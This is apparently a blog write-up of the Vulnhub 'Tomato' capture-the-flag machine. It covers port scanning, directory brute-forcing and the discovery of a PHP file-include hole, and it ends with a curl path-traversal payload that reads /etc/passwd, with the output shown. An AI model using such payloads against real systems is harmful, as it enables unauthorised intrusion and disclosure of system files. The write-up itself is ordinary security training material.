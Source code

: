 ```yaml
---
title: Vulnhub - Tomato
description: My writeup on Tomato box.
categories:
 - vulnhub
tags: vulnhub
---
```


![](https://www.hdwallpaper.nu/wp-content/uploads/2017/03/tomato-3.jpg)

You can find the machine there > [Tomato](https://www.vulnhub.com/entry/tomato-1,557/){:target="_blank"}

## Summary

This one was a pretty good one, a bit "advanced". Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.16
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-19 13:32 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.16)
Host is up (0.00012s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2211/tcp open  emwin
8888/tcp open  sun-answerbook
MAC Address: 00:0C:29:04:21:BA (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.25 seconds
$ nmap -p 21,80,2211,8888 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-19 13:32 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.16)
Host is up (0.00039s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Tomato
2211/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d2:53:0a:91:8c:f1:a6:10:11:0d:9e:0f:22:f8:49:8e (RSA)
|   256 b3:12:60:32:48:28:eb:ac:80:de:17:d7:96:77:6e:2f (ECDSA)
|_  256 36:6f:52:ad:fe:f7:92:3e:a2:51:0f:73:06:8d:80:13 (ED25519)
8888/tcp open  http    nginx 1.10.3 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Private Property
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: 401 Authorization Required
```

Lot of stuff to enumerate, let's focus on port 80 first. I tried to run gobuster on it but nothing:

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
/index.html (Status: 200)
/server-status (Status: 403)
```

Then i had the idea to run dirb on it and it worked, an interesting directory showed up.

```
$ dirb http://$ip/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Sep 19 13:38:33 2020
URL_BASE: http://192.168.1.16/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.1.16/ ----
==> DIRECTORY: http://192.168.1.16/antibot_image/         
```

Has lot of stuff in, but only `info.php` is useful.

![](https://i.imgur.com/VXTvdXH.png)

A good practise is always to check the source code of a page, even if it is a php one you never know. `info.php` has a really interesting comment!

```html
<!-- </?php include $_GET['image']; -->
```

`include == LFI` Since the super global variable `$_GET` has the `image` in the payload will go like that:

```
$ curl http://192.168.1.16/antibot_image/antibots/info.php\?image\=../../../../../../../../../etc/passwd             

.. data ..

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
tomato:x:1000:1000:Tomato,,,:/home/tomato:/bin/bash
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:109:117:ftp daemon,,,:/srv/ftp:/bin/false
```
